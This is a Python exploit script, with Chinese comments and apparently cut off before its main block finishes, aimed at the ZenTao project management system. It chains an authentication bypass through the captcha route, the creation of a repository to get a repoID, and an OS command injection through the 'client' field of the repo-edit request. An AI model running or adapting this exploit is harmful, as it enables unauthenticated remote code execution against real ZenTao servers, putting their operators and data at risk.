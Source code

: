 ```
# 这里用来绕过前台的鉴权，写入Session
def bypass_auth(url, headers):
    by_url = url + genRequest("misc-captcha-user", type)
    res = session.get(by_url, headers=headers)
    cookies = res.cookies.get_dict()
    # cookies["XDEBUG_SESSION"]="XDEBUG_ECLIPSE"
    return cookies


# 这里创建仓库，并获取repoid
def gen_repo(cookies, headers, type):
    gen_url = url + genRequest("repo-create-123", type)
    data = "SCM=Gitlab&client=foo&serviceHost=zentao.gitlab.com&serviceProject=%s&serviceToken=admin&path=123&product=%s&name=%s&encoding=UTF8" % (
        ''.join(random.choice(string.ascii_letters) for i in range(10)),
        ''.join(random.choice(string.ascii_letters) for i in range(10)),
        ''.join(random.choice(string.ascii_letters) for i in range(10)))
    new_header = headers.copy()
    new_header["Content-Type"] = "application/x-www-form-urlencoded"
    res = requests.post(gen_url, data=data, headers=new_header, cookies=cookies)
    # print(res.text)
    if "repo-showSyncCommit" in res.text:
        return res.text.split('-')[-2]
    elif "showSyncCommit&repoID" in res.text:
        return res.text.split('&')[-2].split('=')[-1]
    else:
        exit("exp fail！！！")


# 这里注入命令，cmd写入要执行的命令
def cmd_inj(repoid, cmd, cookies, headers, type):
    inj_url = url + genRequest("repo-edit-{}".format(repoid), type)
    data = "SCM=Subversion&client=cmd /c {} &gitlabHost=http://foo&gitlabProject=foo&gitlabToken=123&name=123&product=123&path=123".format(
        quote(cmd))
    new_header = headers.copy()
    new_header["Content-Type"] = "application/x-www-form-urlencoded"
    res = requests.post(inj_url, data=data, headers=new_header, cookies=cookies)
    if res.status_code == 200:
        print("exec success! \n")
    else:
        print("exec fail! \n")


def get_url(baseUrl):
    res = requests.get(baseUrl + "/zentao")
    if res.status_code == 200:
        return baseUrl + "/zentao"  # 开源版或旗舰版
    res = requests.get(baseUrl + "/biz")
    if res.status_code == 200:
        return baseUrl + "/biz"  # 企业版
    res = requests.get(baseUrl)
    if res.status_code == 200:
        return baseUrl


if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("python exp.py http://127.0.0.1 cmd")
    else:
        url = get_url(sys.argv[1])
        if url[-1] != "/":
            url += "/"
```